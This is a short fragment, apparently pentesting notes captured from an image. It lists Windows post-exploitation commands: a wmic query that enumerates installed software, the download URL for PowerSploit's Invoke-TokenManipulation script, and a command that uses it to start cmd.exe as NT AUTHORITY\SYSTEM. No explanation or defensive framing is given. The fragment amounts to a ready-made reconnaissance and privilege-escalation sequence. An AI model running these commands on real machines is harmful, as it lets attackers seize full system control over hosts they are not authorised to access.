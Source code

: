 
wmic /NAMESPACE:"\\root\CIMV2" PATH Win32_Product get name,version /FORMAT:list


https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-TokenManipulation.ps1

Invoke-TokenManipulation -CreateProcess "cmd.exe" -Username "nt authority\system"
